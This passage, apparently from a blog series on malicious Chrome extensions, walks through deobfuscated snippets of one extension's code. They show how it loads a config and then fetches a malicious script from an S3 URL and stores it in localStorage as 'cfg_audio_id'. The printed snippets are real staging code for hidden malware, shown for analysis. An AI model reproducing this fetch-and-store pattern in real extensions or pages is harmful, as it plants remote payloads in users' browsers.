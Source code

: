 ![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext5.PNG)

```js
// getMediaPath (snippet from above)
if (c = e.strvstrevsstr(), c = "undefined" != typeof JSON && JSON.parse && JSON.parse(c), c && c.cache_c) {
    for (var f in c) window[f] = c[f];
    A = !0; // A becomes true
    break
}
```

Finally, the `setMediaPath` function is called. The malicious script is fetched from that S3 URL and then stored within local storage with the key `cfg_audio_id`. The reason why this key is chosen is not certain as search results yielded no information. Most likely it was just some randomly chosen key.

```js
setMediaPath: function() {
    "undefined" != typeof jj && jj && uu && gg > jj && window[jj][gg](uu, function(a) {
        var b = "cfg_audio_id";
        localStorage[b] = a
    })
}
```

